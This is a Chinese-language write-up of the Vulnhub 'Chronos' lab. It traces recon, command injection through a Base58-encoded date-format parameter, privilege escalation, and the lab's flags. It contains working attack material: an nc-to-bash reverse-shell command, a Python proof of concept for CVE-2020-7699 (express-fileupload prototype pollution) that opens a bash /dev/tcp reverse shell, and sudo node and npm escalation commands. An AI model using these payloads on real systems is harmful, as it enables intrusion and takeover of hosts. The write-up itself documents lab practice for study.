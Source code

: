 ```yaml
---
title: Chapter3_Medium_Chronos
categories:
- Network_Security
- Vulnhub
- Chapter3
tags:
- Network_Security
- Vulnhub
---
```


# Chronos 靶场记录

## 1. 过程记录（粗略）

### 1.1 服务发现和外围打点

1. 主机发现，使用新工具：netdiscover，也是基于 arp 的扫描工具：
    `sudo netdiscover -r 网段/实际掩码 - 8`

2. 端口扫描：
    `nmap -Pn -sV 192.168.0.101 -p 1-10000`
    服务如下：
    ![image-20240116113758731](Chapter3_Medium_Chronos/image-20240116113758731.png)

3. 除了目录扫描，还可以查看一下网页源代码，这里发现一个加密脚本：
    ![image-20240116114455084](Chapter3_Medium_Chronos/image-20240116114455084.png)

4. 使用 cyberchef 对代码进行美化，cyberchef 本身也有编码转化等功能：
    ![image-20240116115232477](Chapter3_Medium_Chronos/image-20240116115232477.png)

5. 根据 URL 猜测，试着访问：
    `http://192.168.0.101:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL`
    发现权限不够。

6. 通过修改 f12，将域名换成 IP，出现 CORS 跨域错误。因此这里需要修改 host 文件，让这个域名指向目标 IP。
    `sudo vim /etc/hosts`

7. 再次访问，页面更新，但是没有啥交互窗口，因此抓个包看看。
    根据 HTTP 历史，总共有三个包，着重看返回日期的包：
    ![image-20240116141132284](Chapter3_Medium_Chronos/image-20240116141132284.png)
    经过测试发现，当 User-Agent 为 Chronos 时，会返回时间，否则提示 Permission Denied。

8. 其次，尝试猜测 format 的含义，修改内容后，服务端无法返回时间。尝试解码，像是 Base 系列编码，挨个试试，结果是 Base 58 编码：
    ![image-20240116141624700](Chapter3_Medium_Chronos/image-20240116141624700.png)
    这里用的是 CaptfEncoder V2，用 CyberChef 的 magic 让它自动分析编码也省事。

9. 结果是 Linux date 命令的参数，这确实是想不到。测试：
    `9bEW4cq4qengPvFGtzJXEAs1sGpKzYpYvUjwvUngwAmfrVsMwAERK9ox - '+Today is %A, %B %d, %Y %H:%M:%S.' && ls`
    结果返回出来了，说明存在 RCE。

### 1.2 反弹 Shell 与信息收集

1. 查看靶机的 /bin，发现其有 nc，因此用 NC 串联来建立 Shell：
    `7ihptVs1vQRPedsgE9FnpNTWUwH5Ec9aGfvLfeuGgtc21faujqYQsojc89LSM4jDjPBprmKfkco7HEoZxxwPeBjAkbDAe6XXfdkc5oiTjwrn1tJc2pyJj2Y7k6PDpCBXtwCfBCkrap - '+Today is %A, %B %d, %Y %H:%M:%S.' | /bin/nc 192.168.0.2 4444 | /bin/bash | /bin/nc 192.168.0.2 5555`

2. 拿到 Shell 经过一段信息收集后，发现 imera 用户有个 user.txt 文件，但是没有权限查看，因此需要提权。

### 1.3 初步提权

1. 先查看内核，`'map_write() CAP_SYS_ADMIN' Local Privilege Escalation` 需要 Capabilities 权限，网上查找了一下，发现需要存在 Capabilities 的 CAP_SYS_ADMIN 权限的文件，通过 `getcap -r / 2>/dev/null` 找了一下，发现没有。

2. 内核没法提权，就从 suid 上试试，查找了一下，常见的 suid 程序也基本没有。
     再试试 sudo -l，结果也不行。

3. 回到网站本身，经过信息收集后，发现其有个 chronos-v2。查看后端的 package.json，发现它的 express-fileupload 版本是 1.1.7，恰好比 CVE-2020-7699 Express 模块注入漏洞的版本低，符合利用版本。

4. 再分析他的服务端的代码 server.js，他的服务端开启的服务只在 localhost:8080 端口，外部无法访问。

5. 从 CVE-2020-7699 Express 入手，百度 Google 去找 PoC，最终详情页在：

     > https://github.com/richardgirges/express-fileupload/issues/236
     >
     > https://blog.p6.is/Real-World-JS-1/

6. PoC:
     ```python
     import requests
      
     cmd = 'bash -c "bash -i &> /dev/tcp/192.168.0.2/8888（Kali） 0>&1"'
      
     # pollute
     requests.post('http://127.0.0.1:8080（存在漏洞的服务）', files = {'__proto__.outputFunctionName': (
         None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})
      
     # execute command
     requests.get('http://127.0.0.1:8080（存在漏洞的服务）')
     ```

     将该 PoC 在靶机上用 Python3 执行，即可获得 Shell。

7. 此时获得的权限是 imera 的 shell，这时再查看 user.txt 文件。
     拿到第一个 flag：byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK

### 1.4 再次提权

1. 利用 sudo -l，发现可以提权：
     ![image-20240116163306479](Chapter3_Medium_Chronos/image-20240116163306479.png)
     可以使用 sudo 来执行 npm 和 node 命令。

2. 使用 node 进行提权：
     `sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'`

     > https://haiclover.github.io/gtfobins/node/

3. 查看 root 的 txt 文件，第二个 flag：
     YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK

4. npm 的提权方式：
     ```bash
     TF=$(mktemp -d)
     echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
     sudo npm -C $TF --unsafe-perm i
     ```

     其他有关命令的提权命令：

     > https://ihsansencan.github.io/privilege-escalation/linux/binaries/

5. LXD 提权：

    > https://www.cnblogs.com/zlgxzswjy/p/14790554.html
    >
    > https://www.cnblogs.com/jason-huawen/p/17016263.html

## 2. 知识点总结

1. 新的主机发现工具 - netdiscover
2. Cyberchef 的使用
3. date 命令参数，这确实想不到，发散思维是吧（
4. CVE-2020-7699 Express 模块注入漏洞
5. node 、lxd 和 npm 提权。
6. 提权方向：
    1. 内核
    2. suid
    3. sudo 与具体命令，具体应用结合
    4. 特殊应用与用户组
